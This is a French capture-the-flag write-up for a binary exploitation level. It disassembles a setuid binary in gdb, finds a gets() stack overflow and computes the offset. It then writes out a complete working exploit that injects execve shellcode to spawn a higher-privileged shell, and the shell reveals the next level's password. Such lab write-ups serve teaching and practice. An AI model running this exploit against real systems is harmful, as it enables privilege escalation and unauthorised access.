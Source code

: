 # Level2

> login:password -> *`level2:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`*
```
:~$ su level2
Password:53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
---

```
:~$ pwd
/home/user/level2
```

```
:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level2` :

```
:~$ ./level2
(input)

:~$ ./level2 test
(input)
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level2
...

(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	    push   %ebp
   0x08048540 <+1>:	    mov    %esp,%ebp
   0x08048542 <+3>:	    and    $0xfffffff0,%esp
   0x08048545 <+6>:	    call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret 
End of assembler dump.

(gdb) disas p
Dump of assembler code for function p:
   (...)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   (...)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>: mov    0x4(%ebp),%eax
   (...)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   (...)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   (...)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   (...)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.

(gdb) quit
```

On remarque que le main du binaire appel une fonction `p()` (+6) et que cette derniere appelle plusieurs fonctions dont une fonction `gets()` (+25) vulnerable a un buffer overflow.

Pour definir le buffer offset, on va run le programme dans gdb en suivant ces quelques etapes:
- `break *0x080484f2`: on pose un breakpoint sur l'eip 0x080484f2 (+30) qui intervient juste apres notre `gets()` (+25).
- `x $eax`: arrive a notre break, on cherche l'hexadecimal de `$eax`.
- `info frame`: on affiche plus d'informations concernant la frame et trouver le `Saved registers`.
- `print` saved_register - hexa_eax: on affiche notre offset, ici `80`.

```
(gdb) break *0x080484f2
Breakpoint 1 at 0x80484f2
(gdb) run
Starting program: /home/user/level2/level2 
test

Breakpoint 1, 0x080484f2 in p ()
(gdb) x $eax
0xbffff6dc:	0x74736574
(gdb) info frame
Stack level 0, frame at 0xbffff730:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff740
 Arglist at 0xbffff728, args: 
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c
(gdb) print 0xbffff72c - 0xbffff6dc
$1 = 80
```
- On va pouvoir faire notre exploit avec l'utilisation d'un [shellcode](https://shell-storm.org/shellcode/files/shellcode-575.html) qui va permettre d'ouvrir le prompt a la saisie:\
`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`
- Puis finir par ajouter l'adresse de retour:\
"`\x08\xa0\x04\x08`"
- Le offset est de 80, mais notre shellcode est de **21 bytes** et le retour de **4 bytes**. On va donc devoir inserer (80 - (21+4) = 59) **59 bytes** entre le shellcode et le retour pour rendre executer notre exploit du binaire `level2`

```
:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "q" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2

:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "q" * 59 + "\x08\xa0\x04\x08"' > /tmp/level2
:~$ cat /tmp/level2 - | ./level2
j
 X�Rh//shh/bin��1�̀qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
